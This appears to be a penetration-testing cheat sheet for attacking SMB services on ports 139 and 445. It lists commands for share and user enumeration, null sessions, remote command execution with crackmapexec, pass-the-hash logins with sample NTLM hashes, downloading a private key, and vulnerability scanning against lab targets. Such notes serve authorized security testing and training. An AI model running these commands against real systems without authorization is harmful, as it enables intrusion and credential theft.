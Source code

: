 ```yaml
---
description: >-
  The Microsoft Server Message Block protocol was often used with NetBIOS over
  TCP/IP (NBT) over UDP, using port numbers 137 and 138, and TCP port numbers
  137 and 139.
---
```


# 139/445 - SMB

## Find version

Find SMB version using metasploit:

`Msfconsole;use scanner/smb/smb_version`

Using nmap scripts:

`nmap --script=smb-enum* --script-args=unsafe=1 -T5` 

## **Discover shares**

**smbmap:**

`smbmap -H [ip]`

or

 ****`smbmap -H [ip] -d [domain] -u [user] -p [password]`

**smbclient:**

`smbclient \\\\IP\\Share`

Or

`smbclient -L //$TARGET`

**Nmap:**

`nmap --script smb-enum-shares -p139,445 -T4 -Pn` 

## Connect to share

**smbmap**:

`$ python smbmap.py -H 172.16.0.24 -u Administrator -p 'changeMe' -r 'C$\Users'`

**smbclient:**

`smbclient //$ip/share -U username`

or

`smbclient \\\\{IP}\\Share`

## Connect to the host

**Crackmapexec:**

`crackmapexec smb -d . -u Administrator -p 'pass123' -x "whoami" 192.168.204.183`

Using smbexec:

`crackmapexec smb --exec-method smbexec -d . -u Administrator -p 'pass123' -x "whoami" 192.168.204.183`

## Pass The Hash

`smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107` 

Or 

`smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107 -R` 

**Crackmapexec**:

`crackmapexec smb  -u username -H LMHASH:NTHASH`

## Null Session

smbmap:

`smbmap -H {IP}` 

rpcclient:

`rpcclient -U "" -N {IP}`

crackmapexec:

`crackmapexec smb <target(s)> -u '' -p ''`

## Download files

**using smbmap:**

`smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107 --download alice/my_private_key.ppk`

## Check for vulnerabilities

Using nmap:

`nmap --script smb-vuln* -p139,445 -T4 -Pn` 

## User Enumeration

Metasploit:

`use auxiliary/scanner/smb/smb_enumusers`

## Tools

### smbclient

`smbclient -L //$TARGET`

### smbmap 

If we have username and password: 

`smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97` 

Username and password for speciifc folder 

`smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' -H \\\\10.10.10.97\\new-site` 

#### PassTheHash 

`smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107`

**Download a file** 

`smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107 --download alice/my_private_key.ppk` 

### Enum4Linux 

Does everything in 1 script:

`enum4linux –a 10.0.0.1` 

### Nmap

SMB enumeration using all scripts:

`nmap --script=smb-enum* --script-args=unsafe=1 -T5` 

### Metasploit

Find SMB version:

`Msfconsole;use scanner/smb/smb_version`

Enum users:

`use auxiliary/scanner/smb/smb_enumusers`

### Impacket **samrdump.py**

Samrdump is an application that retrieves sensitive information about the specified target machine using the Security Account Manager \(SAM\). It is a remote interface that is accessible under the Distributed Computing Environment / Remote Procedure Calls \(DCE/RPC\) service. It lists out all the system shares, user accounts, and other useful information about the target’s presence in the local network. The image clearly shows us all the user accounts that are held by the remote machine. Inspecting all the available shares for sensitive data and accessing other user accounts can further reveal valuable information.

**Syntax:**

samrdump.py \[domain\]/\[user\]:\[Password/Password Hash\]@\[Target IP Address\]

**Command:**

samrdump.py ignite/Administrator:Ignite@987@192.168.1.105

## Protocol Mismatch

When the following error is observed:

```text
root@kali# smbclient -N //10.10.10.3/tmp 
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

 The client is set up for security reasons not to connect to older SMB versions. 

By adding support to NT1 we can connect:

```text
root@kali# smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1' 
Anonymous login successful 
Try "help" to get a list of possible comman
```

You will need to add a line to the following file: my /etc/samba.smb.conf:

```text
[global] 
client min protocol=NT1 
```

##  Resources:

[https://docs.google.com/spreadsheets/d/1F9wUdEJv22HdqhSn6hy-QVtS7eumgZWYYrD-OSi6JOc/edit\#gid=2080645025](https://docs.google.com/spreadsheets/d/1F9wUdEJv22HdqhSn6hy-QVtS7eumgZWYYrD-OSi6JOc/edit#gid=2080645025)

